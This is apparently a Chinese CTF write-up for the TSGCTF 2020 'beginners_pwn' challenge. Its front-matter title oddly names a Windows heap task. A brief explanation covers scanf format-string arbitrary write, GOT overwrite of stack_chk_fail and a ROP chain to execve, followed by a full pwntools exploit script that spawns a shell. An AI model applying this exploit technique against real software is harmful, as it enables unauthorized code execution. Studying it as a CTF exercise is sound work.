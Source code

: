 ```yaml
---
title: TSGCTF 2020 EasyWinHeap 入门 Windows Pwn
date: 2020-07-09 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 题面非常简单，scanf格串参数可控。但无任何输出函数，无法泄露libc，不过程序syscall指令。利用方法：scanf格串构造任意地址写，写stack_chk_fail的GOT表，然后继续利用scanf栈溢出触发canary报警，控制流劫持，但是只找到两个能利用rdi和rsi的gadget，无法直接控制rax和rdx。最后在程序中找到一段gadget(0x4011DE)能间接控制rax和rdx，不过需要劫持rbp才能满足这段约束的条件。总之最后一顿ROP到syscall上即可execve("/bin/sh",0,0)。

- attachment：[beginners_pwn](https://xuanxuanblingbling.github.io/assets/attachment/tsgctf/beginners_pwn)
- ctftime：[beginners_pwn](https://ctftime.org/task/12272)

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
myelf = ELF("./beginners_pwn")
io = process(myelf.path)
#io = remote("35.221.81.216",30002)

def aaw(addr,data):
    io.sendline('%7$s%s\x00\x00'+p64(addr))
    io.sendline(data)
    
# (Addr:0x404018) ROP start and new stack here 
payload  = p64(0x4012be)        # pop*3;ret
payload += p64(0)               # padding
payload += "/bin/sh\x00"        # /bin/sh
payload += p64(0x3b)            # *(*(rbp-0x18)) exevce
payload += p64(0x404030)        # *(rbp-0x18)
payload += p64(0)*3             # padding
payload += p64(0x4012c3)        # pop rdi;ret
payload += p64(0x404028)        # /bin/sh addr
payload += p64(0x4012c1)        # pop rsi;pop r15;ret
payload += p64(0)*2             # rsi;r15
payload += p64(0x40118F)        # syscall

# modify stack_chk_fail in GOT
stack_chk_fail = 0x404018
aaw(stack_chk_fail,payload)

# trigger stack smash
payload  = p64(0x40112d)        # pop rbp
payload += p64(0x404050)        # mov rbp to 0x404050
payload += p64(0x4011DE)        # rbx = 0,rax = *(*(rbp-0x18)),leave and return
io.sendline(payload)
io.sendline("cat flag")
io.interactive()
```